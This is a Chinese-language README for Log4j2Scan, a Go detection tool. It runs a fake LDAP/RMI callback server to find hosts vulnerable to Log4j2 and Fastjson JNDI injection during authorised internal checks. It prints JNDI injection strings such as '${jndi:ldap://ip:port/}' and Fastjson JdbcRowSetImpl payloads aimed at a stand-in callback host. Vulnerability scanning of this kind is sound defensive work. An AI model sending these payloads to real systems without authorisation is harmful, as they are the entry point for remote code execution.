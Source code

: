 # Log4j2Scan

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/golang-1.17-blue)

## ⚠️免责声明

在原有的协议中追加以下内容：

本项目禁止进行未授权商业用途

本项目禁止二次开发后进行商业用途

本项目仅面向合法授权的企业安全建设行为，在使用本项目进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权

如您在使用本项目的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任

在使用本项目前，请您务必审慎阅读、充分理解各条款内容，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意

除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要使用本项目

您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束

## 介绍
该项目由 **天下大木头** 与 **4ra1n** 师傅 共同开发，感谢 **4ra1n** 师傅的许多帮助
 
这是什么？

该项目一款无须借助`dnslog`且完全无害的log4j2反连检测工具，解析`RMI`和`LDAP`协议实现，可用于甲方内网自查

特点：
- 由`golang`编写，直接运行可执行文件进行检测
- 完全无害，不存在任何`Payload`仅基于`LDAP`和`RMI`协议检测
- 动态渲染数据到`web`页面，方便观察结果

![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/001.png)

## 使用

使用`${jndi:ldap://ip:端口/}`这样的`Payload`

如果目标存在漏洞，该项目就会收到`ldap/rmi`请求，从而快速定位哪些目标存在漏洞

Demo
![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/002.png)

命令：`./Log4j2Scan -p port(默认8001) -wp webport(默认8888)`

```text
    __                __ __  _ _____
   / /   ____  ____ _/ // / (_) ___/_________ _____
  / /   / __ \/ __ `/ // /_/ /\__ \/ ___/ __ `/ __ \
 / /___/ /_/ / /_/ /__  __/ /___/ / /__/ /_/ / / / /
/_____/\____/\__, /  /_/_/ //____/\___/\__,_/_/ /_/
 /____/    /___/
    coded by 天下大木头 & 4ra1n
[+] [16:36:26] use port: 8000
[+] [16:36:26] use http port: 8888
[+] [16:36:26] start fake reverse server
[+] [16:36:26] start result http server
|------------------------------------|
|--Payload: ldap/rmi://your-ip:port--|
|------------------------------------|
```

只需要将`Payload`设置为：`ldap://your-ip:port`或`rmi://your-ip:port/xxx`

然后访问：`localhost:8888`即可动态查看最新结果

注意：`rmi`方式payload要为 `${jndi:rmi://127.0.0.1:8001/xxxx}` 类似这种形式


## 拓展

不止用于`Log4j2`框架，也可用于检测存在`JNDI`注入的其他框架

例如`Fastjson`的检测：

```text
{
	"@type": "com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName": "rmi://your-ip:port",
	"autoCommit": true
}

{
	"@type": "com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName": "ldap://your-ip:port",
	"autoCommit": true
}
```
